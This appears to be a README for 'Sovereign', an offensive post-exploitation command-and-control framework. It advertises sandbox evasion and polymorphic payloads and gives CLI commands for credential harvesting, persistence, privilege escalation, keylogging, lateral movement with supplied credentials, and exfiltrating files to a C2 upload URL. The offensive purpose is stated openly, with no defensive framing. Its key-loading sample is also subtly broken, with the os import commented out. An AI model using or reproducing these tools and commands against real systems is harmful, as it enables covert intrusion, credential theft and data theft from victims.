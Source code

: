# Sovereign Post-Exploitation Framework

This framework provides advanced post-exploitation capabilities with a focus on evasion and automation.

# Features

- Enhanced Evasion Techniques: Polymorphic code, sandbox detection, time-based evasion.
- Advanced Post-Exploitation Modules: Credential harvesting, persistence, privilege escalation,
- reconnaissance, data exfiltration, keylogging, lateral movement.
- Secure Communication: Encrypted communication between agent and C2 server.
- Modular Design: Easily add new modules and functionalities.
- Logging and Reporting: Detailed logging and report generation.

# Usage

# Setting Up the C2 Server

1. Create a Python virtual environment and activate it:
    python -m venv venv
    source venv/bin/activate  # On Windows: venv\Scripts\activate

2. Install the required dependencies:
    pip install -r c2_server/requirements.txt

3. Run the C2 server:
    python c2_server/c2_server.py

# Using the CLI

The CLI provides various commands to interact with the framework.

List all registered agents:
    python cli/cli.py list_agents

Send a command to a specific agent:
    python cli/cli.py send_command --agent_id AGENT_ID --command "Your command here"

Generate an obfuscated payload for a specific platform:
    python cli/cli.py generate_payload --platform PLATFORM

Harvest credentials:
    python cli/cli.py harvest_credentials

Establish persistence:
    python cli/cli.py establish_persistence

Escalate privileges:
    python cli/cli.py escalate_privileges

Gather system information:
    python cli/cli.py gather_system_info

Exfiltrate data:
    python cli/cli.py exfiltrate_data --file_path /path/to/file --c2_url https://your-c2-server.com/upload

Start keylogger:
    python cli/cli.py start_keylogger --log_file_path /path/to/log_file

Move laterally:
    python cli/cli.py move_laterally --target_ip TARGET_IP --username USERNAME --password PASSWORD

# Example Commands

Listing all registered agents:
    python cli/cli.py list_agents

Sending a command to a specific agent:
    python cli/cli.py send_command --agent_id 1234-5678-9101-1121 --command "whoami"

Generating a payload for Windows:
    python cli/cli.py generate_payload --platform windows

Harvesting credentials:
    python cli/cli.py harvest_credentials

Establishing persistence:
    python cli/cli.py establish_persistence

Escalating privileges:
    python cli/cli.py escalate_privileges

Gathering system information:
    python cli/cli.py gather_system_info

Exfiltrating data:
    python cli/cli.py exfiltrate_data --file_path /path/to/file --c2_url https://your-c2-server.com/upload

Starting a keylogger:
    python cli/cli.py start_keylogger --log_file_path /path/to/log_file

Moving laterally:
    python cli/cli.py move_laterally --target_ip TARGET_IP --username USERNAME --password PASSWORD

Logging and Reporting

Logs are stored in the c2_server.log file located in the c2_server directory. This file contains detailed information about agent activities and commands executed.

# To generate a report from the logged data, run the following command:
    python c2_server/c2_server.py generate_report
This will create a report.txt file containing the logs. The report provides a comprehensive view of all interactions and events logged by the C2 server.

# Adding New Modules

To add new post-exploitation modules, create a new Python file in the c2_server/modules directory and implement the desired functionality. Update the CLI script to include commands for the new module.

# Key Generation and Conversion

RSA Key Generation
To generate a pair of RSA keys, you can use the OpenSSL toolkit. Run the following commands to generate a private key and a public key:

Generate a private key:
    openssl genpkey -algorithm RSA -out private_key.pem -pkeyopt rsa_keygen_bits:2048

Extract the public key from the private key:
    openssl rsa -pubout -in private_key.pem -out public_key.pem

AES Key Generation
To generate an AES key, you can use OpenSSL as well:

Generate a 256-bit AES key:
    openssl rand -base64 32 > aes_key.txt

Conversion to XML
For certain applications, you may need to convert these keys into XML format. Below are examples of how you might format the keys in XML.

Example RSA Private Key in XML
<RSAKeyValue>
  <Modulus>...</Modulus>
  <Exponent>...</Exponent>
  <P>...</P>
  <Q>...</Q>
  <DP>...</DP>
  <DQ>...</DQ>
  <InverseQ>...</InverseQ>
  <D>...</D>
</RSAKeyValue>

Example RSA Public Key in XML
<RSAKeyValue>
  <Modulus>...</Modulus>
  <Exponent>...</Exponent>
</RSAKeyValue>

Example AES Key in XML
<KeyValue>
  <Key>
    <Algorithm>AES</Algorithm>
    <Size>256</Size>
    <Value>Base64EncodedKeyHere</Value>
  </Key>
</KeyValue>

Secure Management of Keys
Ensure that keys are not stored in the repository. Instead, load them from secure storage at runtime. Below is an example of how you can load keys in a Python script:

# import os
from cryptography.hazmat.primitives import serialization
from cryptography.hazmat.primitives.asymmetric import rsa

def load_private_key(path):
    with open(path, 'rb') as key_file:
        private_key = serialization.load_pem_private_key(
            key_file.read(),
            password=None,
        )
    return private_key

def load_public_key(path):
    with open(path, 'rb') as key_file:
        public_key = serialization.load_pem_public_key(key_file.read())
    return public_key

def load_aes_key(path):
    import xml.etree.ElementTree as ET
    tree = ET.parse(path)
    root = tree.getroot()
    aes_key = root.find('value').text
    return aes_key

private_key_path = os.getenv('PRIVATE_KEY_PATH')
public_key_path = os.getenv('PUBLIC_KEY_PATH')
aes_key_path = os.getenv('AES_KEY_PATH')

private_key = load_private_key(private_key_path)
public_key = load_public_key(public_key_path)
aes_key = load_aes_key(aes_key_path)

print("Keys loaded successfully.")

Setting Up Environment Variables
You can set up environment variables to point to the key file paths:

Example .env File
PRIVATE_KEY_PATH=/path/to/private_key.pem
PUBLIC_KEY_PATH=/path/to/public_key.pem
AES_KEY_PATH=/path/to/aes_key.xml

Running the Project
To run the project, follow the instructions below:

Clone the repository:
    git clone https://github.com/your-repo/Sovereign-C2.git
    cd Sovereign-C2

Install dependencies:
    pip install -r requirements.txt

Run the CLI:
    python cli/cli.py

Set up the environment variables:
    export $(cat .env | xargs)

# Contribution

Contributions to the Sovereign framework are welcome. Please submit a pull request with a detailed description of your changes.
